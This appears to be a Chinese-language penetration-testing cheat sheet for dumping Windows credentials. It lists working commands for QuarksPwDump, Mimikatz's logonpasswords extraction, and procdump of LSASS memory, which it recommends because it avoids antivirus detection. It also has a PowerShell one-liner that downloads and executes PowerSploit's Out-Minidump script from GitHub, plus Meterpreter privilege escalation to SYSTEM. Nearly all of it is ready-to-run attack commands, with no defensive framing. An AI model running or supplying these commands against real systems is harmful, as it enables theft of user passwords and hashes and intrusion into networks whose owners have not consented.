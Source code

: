 ### [QuarksPwDump](https://code.google.com/p/quarkspwdump/downloads/detail?name=QuarksPwDump_v0.2b.zip&can=2&q=)

```bash
quarkspwdump.exe -dhl
```

### [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)

```bash
privilege::debug
sekurlsa::logonpasswords
```

更方便的mimikatz命令

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full"
```

执行以下命令除了回显，还可以dump结果并将hash保存为log日志文件：

```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
```

### [ProDump](https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx)

`prodump`是微软提供的一个命令行实用程序，用于监视应用程序并生成故障转储。我们可以用它先dump对方主机的`LSASS`内存文件，然后在自己主机用`mimikatz`等工具进行处理。这种方式的好处是可以避免被查杀。先转储`LSASS`内存文件：

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

然后本地用`mimikatz`对`LSASS`内存文件进行破解：

```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp"
sekurlsa::logonpasswords
```

类似`ProDump`的工具还有：**fgdump**、**pwdump**、**cachedump**等。利用powershell也能够像`Prodump`一样转储lsass文件：

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); "Get-Process lsass | Out-Minidump"
```

### [Metasploit](https://www.offensive-security.com/metasploit-unleashed/Mimikatz/)

首先需要获取`SYSTEM`权限

```bash
meterpreter > getuid
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
